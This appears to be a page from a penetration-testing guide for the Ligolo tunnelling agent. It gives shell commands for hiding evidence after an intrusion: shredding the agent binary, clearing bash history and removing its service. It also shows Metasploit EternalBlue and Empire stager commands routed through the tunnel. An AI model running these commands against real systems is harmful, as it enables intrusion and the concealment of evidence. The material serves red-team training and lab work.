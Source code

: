 ## Post-Exploitation Cleanup

### Removing Agent Traces

```bash
# Remove agent binary
shred -u agent

# Clear bash history
history -c
rm ~/.bash_history

# Remove service if installed
systemctl stop ligolo-agent
systemctl disable ligolo-agent
rm /etc/systemd/system/ligolo-agent.service
systemctl daemon-reload
```

### Network Evidence Cleanup

```bash
# Check for established connections
netstat -tupn | grep ESTABLISHED

# Kill any remaining connections
fuser -k 11601/tcp
```

## Integration with Other Tools

### Metasploit Integration

```bash
# In Metasploit console
msf > setg Proxies socks5:127.0.0.1:1080
msf > use exploit/windows/smb/ms17_010_eternalblue
msf > set RHOSTS 10.10.10.40
msf > run
```

### Empire Integration

```bash
# In Empire
(Empire) > set proxychains True
(Empire) > usestager windows/launcher_bat
(Empire) > set Listener http
(Empire) > set OutFile /tmp/launcher.bat
(Empire) > generate
```
